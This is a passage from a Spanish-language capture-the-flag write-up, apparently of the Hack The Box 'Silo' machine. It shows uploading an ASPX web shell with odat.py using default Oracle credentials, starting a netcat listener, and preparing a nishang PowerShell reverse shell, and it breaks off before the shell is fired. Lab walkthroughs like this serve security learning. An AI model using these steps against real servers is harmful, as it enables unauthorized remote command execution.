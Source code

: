 ![131page80_upfile_holaTXT_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131page80_upfile_holaTXT_done.png)

PERFECTOOOOOO, tenemos acceso a los archivos que subamos al servidor web... ¿Qué se te ocurre?

Pos sí, subamos una web Shell

...

#### Subiendo WebShell

Sabiendo que estamos ante un servidor web y que está siendo mantenido por **Microsoft ASP.NET**, hacemos una búsqueda rápida de que tipo de extensión permite ASP.NET y tenemos:

> **ASP.NET** es un entorno para aplicaciones web desarrollado y comercializado por Microsoft. Los formularios web están contenidos en archivos con una extensión **ASPX**.

Listos, buscando en el repo de [SecLists](https://github.com/danielmiessler/SecLists) encontramos varias web-shells, subiremos `cmd.aspx`:

```bash
❭ ls -la /opt/SecLists/Web-Shells/FuzzDB/
cmd.aspx        cmd.php         cmd-simple.php  list.php        nc.exe          up.php
cmd.jsp         cmd.sh          list.jsp        list.sh         reverse.jsp     up.sh
```

Ejecutamos:

```bash
❭ python3 odat.py utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --putFile 'C:\inetpub\wwwroot' lawebshelltremenda.aspx cmd.aspx

[1] (10.10.10.82:1521): Put the cmd.aspx local file in the C:\inetpub\wwwroot folder like lawebshelltremenda.aspx on the 10.10.10.82 server
[+] The cmd.aspx file was created on the C:\inetpub\wwwroot directory on the 10.10.10.82 server like the lawebshelltremenda.aspx file
```

Validamos:

![131page80_upfile_webshell_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131page80_upfile_webshell_done.png)

Listos, tenemos ejecución remota de comandos :) Establezcamos una reverse Shell...

Nos ponemos en escucha por el puerto que queremos recibirla:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Generaremos una **PowerShell** mediante el repo [nishang](https://github.com/samratashok/nishang) que tiene muchas utilidades, entre ellas, shells:

```bash
❭ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
❭ mv Invoke-PowerShellTcp.ps1 Itcp.ps1
```

Ahora modificaremos su contenido, tomaremos una cadena comentada y la moveremos al final del archivo sin comentarios, esto para que cuando hagamos la descarga del mismo mediante la web-shell lo interprete a la vez, por lo tanto leería los comandos para la reverse shell y se ejecutarían de una vez, dos pasos en uno ;)
